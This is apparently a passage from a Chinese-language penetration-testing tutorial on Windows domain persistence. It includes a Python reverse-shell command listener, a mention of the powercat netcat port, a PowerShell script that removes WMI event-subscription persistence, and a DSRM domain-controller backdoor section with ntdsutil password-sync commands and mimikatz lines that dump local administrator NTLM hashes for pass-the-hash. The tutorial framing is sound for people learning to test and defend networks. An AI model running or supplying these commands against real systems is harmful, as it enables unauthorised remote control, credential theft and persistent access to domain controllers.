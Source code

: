 | ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>``` | ```python<br>import socket<br>import re<br><br>pattern = re.compile(r'[A-Z]:\\.*?>')<br>def recv_end(the_socket):<br>    total_data = []<br>    data = b''<br>    while True:<br>            data = the_socket.recv(1024)<br>            #print(data)<br>            if not data:<br>                raise ConnectionAbortedError<br>            data = str(data, encoding = 'gbk')<br>            total_data.append(data)<br>            if pattern.search(data, re.M):<br>                break<br>            if len(total_data) > 1:<br>                last_pair = total_data[-2] + total_data[-1]<br>                if pattern.search(last_pair, re.M):<br>                    break<br>    return ''.join(total_data)<br><br># 建立一个服务端<br>server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)<br>port = 6999<br>server.bind(('192.168.41.1', port)) #绑定要监听的端口<br>server.listen(5) #开始监听 表示可以使用五个链接排队<br>while True:# conn就是客户端链接过来而在服务端为期生成的一个链接实例<br>    print('------------Listening on {}------------'.format(port))<br>    conn, addr = server.accept() #等待链接,多个链接的时候就会出现问题,其实返回了两个值<br>    print(conn)<br>    while True:<br>        try:<br>            se = input(recv_end(conn))<br>            if not se:<br>                se = '\r\n'<br>            #print(bytes(se, encoding = "utf8"))<br>            conn.send(bytes(se, encoding = 'utf-8')) #然后再发送数据<br>        except BaseException as e:<br>            print('\n' + addr[0] + ':' + str(addr[1]) + '已关闭')<br>            break<br>    conn.close()           # 关闭连接<br>``` |

powercat.ps1 -> powershell 版 netcat。([https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat))

clean.ps1 -> 清除 evil3.vbs 创建的过滤器、消费者、绑定器。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```powershell<br>#Filter<br>Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='filtP1'" \| Remove-WmiObject -Verbose<br><br>#Consumer<br>Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='consP1'" \| Remove-WmiObject -Verbose<br><br>#Binding<br>Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%filtP1%'" \| Remove-WmiObject -Verbose<br>``` |

## [](#2-%E5%9F%9F%E6%8E%A7%E5%90%8E%E9%97%A8)2 域控后门

### [](#21-dsrm-%E5%90%8E%E9%97%A8)2.1 DSRM 后门

DSRM(Directory Services Restore Mode) 是 Windows 域环境中域控制器的安全模式启动选项。每个域控制器有一个**本地管理员**账号 (也就是 DSRM 账号)。DSRM 的用途是：允许管理员在域环境出现故障或崩溃时还原、修复、重建活动目录数据库，使域环境的运行恢复正常。在域环境创建初期，DSRM 的密码需要在安装 DC 时设置，且很少会被重置。修改 DSRM 密码最基本的方法是在 DC 上运 ntdsutil 行命令。

在渗透测试中，可以使用 DSRM 账号对域环境进行持久化操作。如果域控制器的系统版本为 Windows Server 2008，则需要安装 KB96132 补丁才可以使用指定域账号的密码对 DSRM 的密码进行同步。在 Windows Server 2008 以后版本的系统中不需要安装此补丁。如果域控制器的系统版本为 Windows Server 2003，则不能使用该方法进行持久化操作。

我们知道，每个 DC 都有本地管理员 (administrator) 账号和密码。DSRM 账号可以作为 DC 的本地管理员用户，通过网络连接 DC，进而控制 DC。

在 DC 上，DSRM 账号的表现形式是本地的 administrator 用户，也就是说本地 administrator 用户 = DSRM 账号

#### [](#211-%E4%BF%AE%E6%94%B9-dsrm-%E5%AF%86%E7%A0%81%E7%9A%84%E6%96%B9%E6%B3%95)2.1.1 修改 DSRM 密码的方法

1.  微软公布了修改 DSRM 密码的方法。在域控上打开命令行环境，常用命令如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```powershell<br># NTDSUTIL：打开ntdsutil<br>set DSRM password # ：修改DSRM的密码<br>reset password on  server null # 在当前域控制器上重置DSRM的密码<br># q(第1次)：退出DSRM密码设置模式<br># q(第2次)：退出ntdsutil<br>``` |

2.  如果域控制器的系统版本为 Windows Server 2008(已安装 KB961320) 及以上，可以将 DSRM 密码同步为已存在的域账号密码。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```powershell<br>NTDSUTIL # 打开ntdsutil<br>set DSRM password # 修改 DSRM 的密码<br>sync from domain account # 域用户名字：使DSRM的密码和指定域用户的密码同步<br># q(第1次)  退出DSRM密码设置模式<br># q(第2次)  退出ntdsutil<br>``` |

#### [](#212-%E8%AE%BE%E7%BD%AE-dsrm-%E5%90%8E%E9%97%A8)2.1.2 设置 DSRM 后门

##### [](#2121-%E7%9B%B4%E6%8E%A5%E4%B8%BA-dsrm-%E8%AE%BE%E7%BD%AE%E6%96%B0%E5%AF%86%E7%A0%81)2.1.2.1 直接为 DSRM 设置新密码

1.  为 DSRM 设置新密码，获取 NTLM 哈希值，修改 DSRM 登录方式，使用哈希传递攻击域控
    
2.  查看 SAM 文件中本地管理员 administrator 的 NTLM 哈希值
    

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```powershell<br>privilege::debug<br>token::elevate<br>lsadump::sam<br>``` |
